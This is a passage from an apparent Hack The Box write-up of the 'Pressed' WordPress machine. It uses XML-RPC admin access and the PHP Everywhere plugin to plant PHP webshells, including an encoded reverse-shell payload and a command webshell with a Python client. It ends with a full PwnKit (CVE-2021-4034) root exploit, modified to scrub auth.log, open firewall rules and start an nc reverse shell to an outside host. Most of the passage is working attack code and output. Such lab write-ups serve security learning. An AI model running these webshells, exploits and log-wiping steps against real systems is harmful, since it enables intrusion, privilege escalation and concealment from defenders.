There's an weird list : `htb.get_flag`

Let's use this command.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ curl -X POST http://pressed.htb/xmlrpc.php \
     -H "Content-Type: application/xml" \
     -d '<?xml version="1.0"?>
<methodCall>
  <methodName>htb.get_flag</methodName>
  <params>
  </params>
</methodCall>'
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <string>52f6801b91c1a1876881439d9c19f84d
</string>
      </value>
    </param>
  </params>
</methodResponse>
```

This is the user flag.
Let's try other commands.
By the way, I think there must be python library. I googled, and found the following;
https://python-wordpress-xmlrpc.readthedocs.io/en/latest/examples.html
I think I can easily send XML request in wordpress-xmlrpc convention with this library.

Refering to the document, I built a code to read post.
I think `wp.getPosts` can make it possible.

```python
┌──(kali㉿kali)-[~/htb/wordpress-xmlrpc]
└─$ cat get_posts.py
from wordpress_xmlrpc import Client
from wordpress_xmlrpc.methods import posts

url = "http://pressed.htb/xmlrpc.php"
username = "admin"
password = "uhc-jan-finals-2022"

client = Client(url, username, password)

plist = client.call(posts.GetPosts())

for i, post in enumerate(plist):
    print(f"Post {i + 1} Attributes:")
    for attr in dir(post):
        if not attr.startswith("_"):
            try:
                value = getattr(post, attr)
                print(f"  {attr}: {value}")
            except Exception as e:
                print(f"  {attr}: <error accessing attribute> ({e})")
    print("=" * 40)
```

I ran this code, and got the following result;

```xml
┌──(kali㉿kali)-[~/htb/wordpress-xmlrpc]
└─$ python get_posts.py 
Post 1 Attributes:
  comment_status: open
  content: <!-- wp:paragraph -->
<p>The UHC January Finals are underway!  After this event, there are only three left until the season one finals in which all the previous winners will compete in the Tournament of Champions. This event a total of eight players qualified, seven of which are from Brazil and there is one lone Canadian.  Metrics for this event can be found below.</p>
<!-- /wp:paragraph -->

<!-- wp:php-everywhere-block/php {"code":"JTNDJTNGcGhwJTIwJTIwZWNobyhmaWxlX2dldF9jb250ZW50cygnJTJGdmFyJTJGd3d3JTJGaHRtbCUyRm91dHB1dC5sb2cnKSklM0IlMjAlM0YlM0U=","version":"3.0.0"} /-->

<!-- wp:paragraph -->
<p></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p></p>
<!-- /wp:paragraph -->
  custom_fields: []
  date: 2022-01-28 14:29:53
  date_modified: 2022-01-28 18:17:45
  definition: {'id': 'post_id', 'user': 'post_author', 'date': <wordpress_xmlrpc.fieldmaps.DateTimeFieldMap object at 0xffffa959c2d0>, 'date_modified': <wordpress_xmlrpc.fieldmaps.DateTimeFieldMap object at 0xffffaa651bd0>, 'slug': 'post_name', 'post_status': 'post_status', 'title': <wordpress_xmlrpc.fieldmaps.FieldMap object at 0xffffa959c3d0>, 'content': 'post_content', 'excerpt': 'post_excerpt', 'link': 'link', 'comment_status': 'comment_status', 'ping_status': 'ping_status', 'terms': <wordpress_xmlrpc.fieldmaps.TermsListFieldMap object at 0xffffa959c390>, 'terms_names': 'terms_names', 'custom_fields': 'custom_fields', 'enclosure': 'enclosure', 'password': 'post_password', 'post_format': 'post_format', 'thumbnail': 'post_thumbnail', 'sticky': 'sticky', 'post_type': <wordpress_xmlrpc.fieldmaps.FieldMap object at 0xffffa959c450>, 'parent_id': 'post_parent', 'menu_order': <wordpress_xmlrpc.fieldmaps.IntegerFieldMap object at 0xffffa959c410>, 'guid': 'guid', 'mime_type': 'post_mime_type'}
  excerpt: 
  guid: http://172.16.10.186/?p=1
  id: 1
  link: /index.php/2022/01/28/hello-world/
  menu_order: 0
  mime_type: 
  parent_id: 0
  password: 
  ping_status: open
  post_format: standard
  post_status: publish
  post_type: post
  slug: hello-world
  sticky: False
  struct: {'post_id': '1', 'post_author': '1', 'post_date_gmt': <DateTime '20220128T14:29:53' at 0xffffa95c4390>, 'post_modified_gmt': <DateTime '20220128T18:17:45' at 0xffffa95c43d0>, 'post_name': 'hello-world', 'post_status': 'publish', 'post_title': 'UHC January Finals Under Way', 'post_content': '<!-- wp:paragraph -->\n<p>The UHC January Finals are underway!  After this event, there are only three left until the season one finals in which all the previous winners will compete in the Tournament of Champions. This event a total of eight players qualified, seven of which are from Brazil and there is one lone Canadian.  Metrics for this event can be found below.</p>\n<!-- /wp:paragraph -->\n\n<!-- wp:php-everywhere-block/php {"code":"JTNDJTNGcGhwJTIwJTIwZWNobyhmaWxlX2dldF9jb250ZW50cygnJTJGdmFyJTJGd3d3JTJGaHRtbCUyRm91dHB1dC5sb2cnKSklM0IlMjAlM0YlM0U=","version":"3.0.0"} /-->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->', 'post_excerpt': '', 'link': '/index.php/2022/01/28/hello-world/', 'comment_status': 'open', 'ping_status': 'open', 'terms': {'category': [1]}, 'custom_fields': [], 'post_password': '', 'post_format': 'standard', 'post_thumbnail': [], 'sticky': False, 'post_type': 'post', 'post_parent': '0', 'menu_order': 0, 'guid': 'http://172.16.10.186/?p=1', 'post_mime_type': ''}
  terms: [<WordPressTerm: b'Uncategorized'>]
  thumbnail: []
  title: UHC January Finals Under Way
  user: 1
========================================
```

The main content looks similar with the main page. But there's something else from the paragraph. 

```bash
<!-- wp:php-everywhere-block/php {"code":"JTNDJTNGcGhwJTIwJTIwZWNobyhmaWxlX2dldF9jb250ZW50cygnJTJGdmFyJTJGd3d3JTJGaHRtbCUyRm91dHB1dC5sb2cnKSklM0IlMjAlM0YlM0U=","version":"3.0.0"} /-->
```

`php-everywhere-block` is being used.
https://wordpress.org/plugins/php-everywhere/
Based on the link above, it seems to be a block to run `php` code.
I think this looks like `base64` encoded string.. Let's decrypt it.


It is `php` code! That's why I couldn't find it from the main post.
This code is transformed into the following;


That means the page allows `php` code in posts to be rendered(executed).
I think I can utilize this to upload and run a webshell.

# Shell as `www-data`

### Webshell through XMLRPC

My idea is, since this wordpress is allowing `wp.newpost` through `xmlrpc`, and `php-everywhere` plugin is available, I can upload webshell through this.
Using `php-everywhere` plugin, and `wp.newpost` method, let's make a new post for webshell test.

First, here's the code to upload a test post.

```python
┌──(kali㉿kali)-[~/htb/wordpress-xmlrpc]
└─$ cat post_webshell_test.py 
from wordpress_xmlrpc import Client
from wordpress_xmlrpc.methods.posts import NewPost
from wordpress_xmlrpc.compat import xmlrpc_client
from wordpress_xmlrpc import WordPressPost

url = "http://pressed.htb/xmlrpc.php"
username = "admin"
password = "uhc-jan-finals-2022"

client = Client(url, username, password)

post = WordPressPost()
post.title = "PHP Injection Test"
post.content = """<!-- wp:php-everywhere-block/php {"code":"PD9waHAgZWNobygiV2Vic2hlbGwgaXMgaW5qZWN0YWJsZSEiKTsgPz4=","version":"3.0.0"} /-->"""
post.post_status = "publish" 

try:
    post_id = client.call(NewPost(post))
    print(f"Post created successfully with ID: {post_id}")
except Exception as e:
    print(f"An error occurred: {e}")


┌──(kali㉿kali)-[~/htb/wordpress-xmlrpc]
└─$ python post_webshell_test.py 
Post created successfully with ID: 47
```

I ran this code, and successfully uploaded the post.
This is supposed to print `Webshell is injectable!` on the post.
Let's test this with previous code `get_posts.py`.

```bash
┌──(kali㉿kali)-[~/htb/wordpress-xmlrpc]
└─$ python get_posts.py     
Post 1 Attributes:
  comment_status: closed
  content: <!-- wp:php-everywhere-block/php {"code":"PD9waHAgZWNobygiV2Vic2hlbGwgaXMgaW5qZWN0YWJsZSEiKTsgPz4=","version":"3.0.0"} /-->
  custom_fields: []
  date: 2024-12-01 10:24:27
  date_modified: 2024-12-01 10:24:27
  definition: {'id': 'post_id', 'user': 'post_author', 'date': <wordpress_xmlrpc.fieldmaps.DateTimeFieldMap object at 0xffffaaed0390>, 'date_modified': <wordpress_xmlrpc.fieldmaps.DateTimeFieldMap object at 0xffffaaed0450>, 'slug': 'post_name', 'post_status': 'post_status', 'title': <wordpress_xmlrpc.fieldmaps.FieldMap object at 0xffffaaed04d0>, 'content': 'post_content', 'excerpt': 'post_excerpt', 'link': 'link', 'comment_status': 'comment_status', 'ping_status': 'ping_status', 'terms': <wordpress_xmlrpc.fieldmaps.TermsListFieldMap object at 0xffffaaed0490>, 'terms_names': 'terms_names', 'custom_fields': 'custom_fields', 'enclosure': 'enclosure', 'password': 'post_password', 'post_format': 'post_format', 'thumbnail': 'post_thumbnail', 'sticky': 'sticky', 'post_type': <wordpress_xmlrpc.fieldmaps.FieldMap object at 0xffffaaed0550>, 'parent_id': 'post_parent', 'menu_order': <wordpress_xmlrpc.fieldmaps.IntegerFieldMap object at 0xffffaaed0510>, 'guid': 'guid', 'mime_type': 'post_mime_type'}
  excerpt: 
  guid: /?p=47
  id: 47
  link: /index.php/2024/12/01/php-injection-test/
  menu_order: 0
  mime_type: 
  parent_id: 0
  password: 
  ping_status: open
  post_format: standard
  post_status: publish
  post_type: post
  slug: php-injection-test
  sticky: False
  struct: {'post_id': '47', 'post_author': '1', 'post_date_gmt': <DateTime '20241201T10:24:27' at 0xffffaaedff10>, 'post_modified_gmt': <DateTime '20241201T10:24:27' at 0xffffaaedff90>, 'post_name': 'php-injection-test', 'post_status': 'publish', 'post_title': 'PHP Injection Test', 'post_content': '<!-- wp:php-everywhere-block/php {"code":"PD9waHAgZWNobygiV2Vic2hlbGwgaXMgaW5qZWN0YWJsZSEiKTsgPz4=","version":"3.0.0"} /-->', 'post_excerpt': '', 'link': '/index.php/2024/12/01/php-injection-test/', 'comment_status': 'closed', 'ping_status': 'open', 'terms': {'category': [1]}, 'custom_fields': [], 'post_password': '', 'post_format': 'standard', 'post_thumbnail': [], 'sticky': False, 'post_type': 'post', 'post_parent': '0', 'menu_order': 0, 'guid': '/?p=47', 'post_mime_type': ''}
  terms: [<WordPressTerm: b'Uncategorized'>]
  thumbnail: []
  title: PHP Injection Test
  user: 1
========================================
```

It shows the address of the new post page : `/index.php/2024/12/01/php-injection-test`.
Let's visit this page to see what's in it!


Bingo! I can inject `php` code with this process.
Let's upload a real webshell.

```python
┌──(kali㉿kali)-[~/htb/wordpress-xmlrpc]
└─$ cat post_webshell_real.py                     
from wordpress_xmlrpc import Client
from wordpress_xmlrpc.methods.posts import NewPost
from wordpress_xmlrpc.compat import xmlrpc_client
from wordpress_xmlrpc import WordPressPost

url = "http://pressed.htb/xmlrpc.php"
username = "admin"
password = "uhc-jan-finals-2022"

client = Client(url, username, password)

post = WordPressPost()
post.title = "PHP Injection for Reverse shell"
post.content = """<!-- wp:php-everywhere-block/php {"code":"JTNDP3BocCUyMCRzb2NrPWZzb2Nrb3BlbiglMjIxMC4xMC4xNC43JTIyLDkwMDApO3N5c3RlbSglMjIvYmluL3NoJTIwLWklMjAlM0MmMyUyMCUzRSYzJTIwMiUzRSYzJTIyKTslMjA/JTNF","version":"3.0.0"} /-->"""
post.post_status = "publish" 

try:
    post_id = client.call(NewPost(post))
    print(f"Post created successfully with ID: {post_id}")
except Exception as e:
    print(f"An error occurred: {e}")


┌──(kali㉿kali)-[~/htb/wordpress-xmlrpc]
└─$ python post_webshell_real.py 
Post created successfully with ID: 49
```

Let's check if it's uploaded.

```bash
┌──(kali㉿kali)-[~/htb/wordpress-xmlrpc]
└─$ python get_posts.py                           
Post 1 Attributes:
  comment_status: closed
  content: <!-- wp:php-everywhere-block/php {"code":"JTNDP3BocCUyMCRzb2NrPWZzb2Nrb3BlbiglMjIxMC4xMC4xNC43JTIyLDkwMDApO3N5c3RlbSglMjIvYmluL3NoJTIwLWklMjAlM0MmMyUyMCUzRSYzJTIwMiUzRSYzJTIyKTslMjA/JTNF","version":"3.0.0"} /-->
  custom_fields: []
  date: 2024-12-01 10:34:45
  date_modified: 2024-12-01 10:34:45
  definition: {'id': 'post_id', 'user': 'post_author', 'date': <wordpress_xmlrpc.fieldmaps.DateTimeFieldMap object at 0xffff9b7a0510>, 'date_modified': <wordpress_xmlrpc.fieldmaps.DateTimeFieldMap object at 0xffff9c821bd0>, 'slug': 'post_name', 'post_status': 'post_status', 'title': <wordpress_xmlrpc.fieldmaps.FieldMap object at 0xffff9b7a0610>, 'content': 'post_content', 'excerpt': 'post_excerpt', 'link': 'link', 'comment_status': 'comment_status', 'ping_status': 'ping_status', 'terms': <wordpress_xmlrpc.fieldmaps.TermsListFieldMap object at 0xffff9b7a05d0>, 'terms_names': 'terms_names', 'custom_fields': 'custom_fields', 'enclosure': 'enclosure', 'password': 'post_password', 'post_format': 'post_format', 'thumbnail': 'post_thumbnail', 'sticky': 'sticky', 'post_type': <wordpress_xmlrpc.fieldmaps.FieldMap object at 0xffff9b7a0690>, 'parent_id': 'post_parent', 'menu_order': <wordpress_xmlrpc.fieldmaps.IntegerFieldMap object at 0xffff9b7a0650>, 'guid': 'guid', 'mime_type': 'post_mime_type'}
  excerpt: 
  guid: /?p=49
  id: 49
  link: /index.php/2024/12/01/php-injection-for-reverse-shell/
  menu_order: 0
  mime_type: 
  parent_id: 0
  password: 
  ping_status: open
  post_format: standard
  post_status: publish
  post_type: post
  slug: php-injection-for-reverse-shell
  sticky: False
  struct: {'post_id': '49', 'post_author': '1', 'post_date_gmt': <DateTime '20241201T10:34:45' at 0xffff9b7aff50>, 'post_modified_gmt': <DateTime '20241201T10:34:45' at 0xffff9b7aff10>, 'post_name': 'php-injection-for-reverse-shell', 'post_status': 'publish', 'post_title': 'PHP Injection for Reverse shell', 'post_content': '<!-- wp:php-everywhere-block/php {"code":"JTNDP3BocCUyMCRzb2NrPWZzb2Nrb3BlbiglMjIxMC4xMC4xNC43JTIyLDkwMDApO3N5c3RlbSglMjIvYmluL3NoJTIwLWklMjAlM0MmMyUyMCUzRSYzJTIwMiUzRSYzJTIyKTslMjA/JTNF","version":"3.0.0"} /-->', 'post_excerpt': '', 'link': '/index.php/2024/12/01/php-injection-for-reverse-shell/', 'comment_status': 'closed', 'ping_status': 'open', 'terms': {'category': [1]}, 'custom_fields': [], 'post_password': '', 'post_format': 'standard', 'post_thumbnail': [], 'sticky': False, 'post_type': 'post', 'post_parent': '0', 'menu_order': 0, 'guid': '/?p=49', 'post_mime_type': ''}
  terms: [<WordPressTerm: b'Uncategorized'>]
  thumbnail: []
  title: PHP Injection for Reverse shell
  user: 1
========================================
```

The uploaded url is : `/index.php/2024/12/01/php-injection-for-reverse-shell/`
The full URL is : `http://pressed.htb/index.php/2024/12/01/php-injection-for-reverse-shell/`


However, the page is not successfully loaded. I tried with different payloads, but none of them worked. I think there's a filter or protector to run this.

Instead, let's try more naive code as follows;

```php
<?php 
	echo(file_get_contents('/var/www/html/output.log'));
	system($_REQUEST['cmd']);
?>
```

Python code to post:

```python
┌──(kali㉿kali)-[~/htb/wordpress-xmlrpc]
└─$ cat post_webshell_cmd.py                         
from wordpress_xmlrpc import Client
from wordpress_xmlrpc.methods.posts import NewPost
from wordpress_xmlrpc import WordPressPost

url = "http://pressed.htb/xmlrpc.php"
username = "admin"
password = "uhc-jan-finals-2022"

client = Client(url, username, password)

post = WordPressPost()
post.title = "Webshell Command"
post.content = """<!-- wp:php-everywhere-block/php {"code":"JTNDP3BocCUyMCUwQSUwOWVjaG8oZmlsZV9nZXRfY29udGVudHMoJy92YXIvd3d3L2h0bWwvb3V0cHV0LmxvZycpKTslMEElMDlzeXN0ZW0oJF9SRVFVRVNUJTVCJ2NtZCclNUQpOyUwQT8lM0U=","version":"3.0.0"} /-->"""
post.post_status = "publish"

try:
    post_id = client.call(NewPost(post))
    print(f"Post created successfully with ID: {post_id}")
    print(f"Access the webshell at: http://pressed.htb/?p={post_id}&cmd=<your-command>")
except Exception as e:
    print(f"An error occurred: {e}")


┌──(kali㉿kali)-[~/htb/wordpress-xmlrpc]
└─$ python post_webshell_cmd.py    
Post created successfully with ID: 47
Access the webshell at: http://pressed.htb/?p=47&cmd=<your-command>
```

`http://pressed.htb/index.php/2024/12/01/webshell-command/?cmd=id` request on browser:


It's working! But have to trim the result from other subsidiary outputs.
Let's make a code for that.

```python
┌──(kali㉿kali)-[~/htb/wordpress-xmlrpc]
└─$ cat webshell_cmd.py
import requests
import re

def execute_command(base_url):
    while True:
        command = input("Enter the command to execute (or 'exit' to quit): ")
        if command.lower() == 'exit':
            print("Exiting...")
            break

        url = f"{base_url}?cmd={command}"

        try:
            response = requests.get(url)

            match = re.search(r"</table>(.*?)<div class=\"clearfix\">", response.text, re.S)
            if match:
                output = match.group(1).strip()
                print("\nCommand Output:")
                print(output)
            else:
                print("\nCommand output not found.")
        except Exception as e:
            print(f"An error occurred: {e}")

base_url = "http://pressed.htb/index.php/2024/12/01/webshell-command"
execute_command(base_url)
```

This code is taking user input to take commands, and outputs the command output.

```bash
┌──(kali㉿kali)-[~/htb/wordpress-xmlrpc]
└─$ python webshell_cmd.py
Enter the command to execute (or 'exit' to quit): id

Command Output:
uid=33(www-data) gid=33(www-data) groups=33(www-data)

Enter the command to execute (or 'exit' to quit): ping 10.10.14.7 -c 3

Command Output:
PING 10.10.14.7 (10.10.14.7) 56(84) bytes of data.

&#8212; 10.10.14.7 ping statistics &#8212;
3 packets transmitted, 0 received, 100% packet loss, time 2030ms
```

This is working well, but not working for `ping` command.
As expected, the server seems to be blocking the outgoing traffics...


# Shell as `root`

### Enumeration

Let's check `sudo -l` command.

```bash
Enter the command to execute (or 'exit' to quit): find / -perm -4000 2>/dev/null

Command Output:
/usr/bin/at
/usr/bin/fusermount
/usr/bin/sudo
/usr/bin/su
/usr/bin/mount
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/pkexec
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
<SNIP>
```

I think `pkexec` is suspicious.
In 2021~2, `CVE-2021-4034` was an issue that `pkexec` can be exploited for privilege escalation.

Here's the detail of PoC for this vulnerability:
https://github.com/arthepsy/CVE-2021-4034/tree/main

And PoC code for this;

```cpp
/*
 * Proof of Concept for PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit’s pkexec (CVE-2021-4034) by Andris Raugulis <moo@arthepsy.eu>
 * Advisory: https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034
 */
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char *shell = 
	"#include <stdio.h>\n"
	"#include <stdlib.h>\n"
	"#include <unistd.h>\n\n"
	"void gconv() {}\n"
	"void gconv_init() {\n"
	"	setuid(0); setgid(0);\n"
	"	seteuid(0); setegid(0);\n"
	"	system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");\n"
	"	exit(0);\n"
	"}";

int main(int argc, char *argv[]) {
	FILE *fp;
	system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
	system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
	fp = fopen("pwnkit/pwnkit.c", "w");
	fprintf(fp, "%s", shell);
	fclose(fp);
	system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
	char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
	execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}
```

Since the traffic is blocked, we cannot use python web server to upload the file.
Let's use XMLRPC's procedure call which might be useful for file upload...

Here's the document for `wp.uploadFile` method:
https://python-wordpress-xmlrpc.readthedocs.io/en/latest/examples/media.html

I'll skip the procedure, but I was blocked when I tried to upload `c` file. So I changed the extension to `png` (Image file)

Also, since we don't have an interactive shell now, we have to slightly change to code.
Originally, it contains `/bin/bash` to spawn a shell as `root`.
But since we cannot access to the shell, I replace the command to the following;

```bash
/usr/sbin/iptables -A OUTPUT -p tcp -d 10.10.14.7 -j ACCEPT
/usr/sbin/iptables -A INPUT -p tcp -s 10.10.14.7 -j ACCEPT
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.7 9000 >/tmp/f
```


```bash
┌──(kali㉿kali)-[~/htb/wordpress-xmlrpc]
└─$ cat pkwner.png
#!/bin/bash
echo "██████╗ ██╗  ██╗██╗    ██╗███╗   ██╗███████╗██████╗ "
echo "██╔══██╗██║ ██╔╝██║    ██║████╗  ██║██╔════╝██╔══██╗"
echo "██████╔╝█████╔╝ ██║ █╗ ██║██╔██╗ ██║█████╗  ██████╔╝"
echo "██╔═══╝ ██╔═██╗ ██║███╗██║██║╚██╗██║██╔══╝  ██╔══██╗"
echo "██║     ██║  ██╗╚███╔███╔╝██║ ╚████║███████╗██║  ██║"
echo "╚═╝     ╚═╝  ╚═╝ ╚══╝╚══╝ ╚═╝  ╚═══╝╚══════╝╚═╝  ╚═╝"
echo "CVE-2021-4034 PoC by Kim Schulz"
# shell poc by Kim Schulz
echo "[+] Setting up environment..."
mkdir -p 'GCONV_PATH=.'
touch 'GCONV_PATH=./pkwner'
chmod a+x 'GCONV_PATH=./pkwner'
mkdir -p pkwner
echo "module UTF-8// PKWNER// pkwner 2" > pkwner/gconv-modules
cat > pkwner/pkwner.c <<- EOM
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
void gconv() {}
void gconv_init() {
  printf("hello");
  setuid(0); setgid(0);
        seteuid(0); setegid(0);
  system("PATH=/bin:/usr/bin:/usr/sbin:/usr/local/bin/:/usr/local/sbin;"
         "rm -rf 'GCONV_PATH=.' 'pkwner';"
         "cat /var/log/auth.log|grep -v pkwner >/tmp/al;cat /tmp/al >/var/log/auth.log;"
         "/usr/sbin/iptables -A OUTPUT -p tcp -d 10.10.14.7 -j ACCEPT;"
         "/usr/sbin/iptables -A INPUT -p tcp -s 10.10.14.7 -j ACCEPT;"
         "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.7 9000 >/tmp/f;");
        exit(0);
}
EOM

cat > pkwner/exec.c <<- EOM
#include <stdlib.h>
#include <unistd.h>
int main(){
  char *env[] = {"pkwner", "PATH=GCONV_PATH=.", "CHARSET=PKWNER",
                 "SHELL=pkwner", NULL};
  execve("/usr/bin/pkexec", (char *[]){NULL}, env);
}
EOM
echo "[+] Build offensive gconv shared module..."
gcc -fPIC -shared -o pkwner/pkwner.so pkwner/pkwner.c
echo "[+] Build mini executor..."
gcc -o pkwner/executor pkwner/exec.c
# export PATH="GCONV_PATH=."
# export CHARSET="PKWNER"
#export SHELL=pkwner
PATH='GCONV_PATH=.' ./pkwner/executor
echo "[+] Nice Job"
```

Then, let's check upload directory to find if the file is successfully uploaded.



It is! Now we can use this file!

```bash
┌──(kali㉿kali)-[~/htb/wordpress-xmlrpc]
└─$ python webshell_cmd.py  
Enter the command to execute (or 'exit' to quit): bash /var/www/html/wp-content/uploads/2024/12/pkwner.png

Command Output:
██████╗ ██╗  ██╗██╗    ██╗███╗   ██╗███████╗██████╗ 
██╔══██╗██║ ██╔╝██║    ██║████╗  ██║██╔════╝██╔══██╗
██████╔╝█████╔╝ ██║ █╗ ██║██╔██╗ ██║█████╗  ██████╔╝
██╔═══╝ ██╔═██╗ ██║███╗██║██║╚██╗██║██╔══╝  ██╔══██╗
██║     ██║  ██╗╚███╔███╔╝██║ ╚████║███████╗██║  ██║
╚═╝     ╚═╝  ╚═╝ ╚══╝╚══╝ ╚═╝  ╚═══╝╚══════╝╚═╝  ╚═╝
CVE-2021-4034 PoC by Kim Schulz
[+] Setting up environment&#8230;
[+] Build offensive gconv shared module&#8230;
[+] Build mini executor&#8230;
uid=0(root) gid=0(root) groups=0(root),33(www-data)
d9c8a6af901fd6a5e118ad410757b84e
hello[+] Nice Job
```

Now I can run commands as `root`!